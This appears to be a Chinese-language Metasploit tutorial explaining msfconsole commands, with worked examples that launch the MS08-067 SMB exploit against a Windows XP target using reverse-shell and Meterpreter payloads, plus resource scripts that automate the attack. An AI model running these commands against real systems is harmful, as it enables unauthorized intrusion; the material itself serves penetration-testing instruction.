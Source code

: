 搜索模块 search

例子： `searh mssql search ms08_067`

查看当前模块可用的payload： `show payloads`

例子：
```
use windows/smb/ms08_067_netapi
show payloads
set payload windows/shell/reverse_tcp
show options
```

查看可选的目标类型`show targets`
查看更多信息`info`
设置一个选项或取消设置 `set/unset`
设置或取消全局选项 `setg/unsetg`  例如设置LHOST就可以用setg，避免后面重复设置
保存全局选项的设置 `save`   当下次启动仍然生效
查看建立的session  `sessions –l`

激活session   `sessions –i  num`    #num为session编号


### 2、暴力端口探测：

当主机端口对外开放但是普通探测方法无法探测到时，用此模块，msf将对目标的所有端口进行尝试，直到找到一个开放端口并与测试者建立连接。

例子：

```
use exploit/windows/smb/ms08_067_netapi
set LHOST 192.168.1.111
set RHOST 192.168.1.122
set TARGET 39 #Windows XP SP3 Chinese - Simplified (NX)
search ports   #搜索与ports相关模块
set PAYLOAD windows/meterpreter/reverse_tcp_allports
exploit –j   #作为后台任务运行
sessions –l –v
sesssions –i 1
```

### 3、MSF脚本文件：

为了缩短测试时间可以将msf命令写入一个文件，然后在msf中加载它。

加载方式：msfconsole的resource命令或者msfconsole加上-r选项

例子：

```
echo ‘version’ > resource.rc
echo ‘load sounds’ >> resource.rc
msfconsole –r resource.rc
```

例子：

```
echo 'use exploit/windows/smb/ms08_067_netapi' > autoexp.rc
echo 'set RHOST 192.168.1.133' >> autoexp.rc
echo 'set PAYLOAD windows/meterpreter/reverse_tcp' >> autoexp.rc
echo 'set LHOST 192.168.1.111' >> autoexp.rc
echo 'exploit' >> autoexp.rc
msfconsole
msf> resource autoexp.rc
```
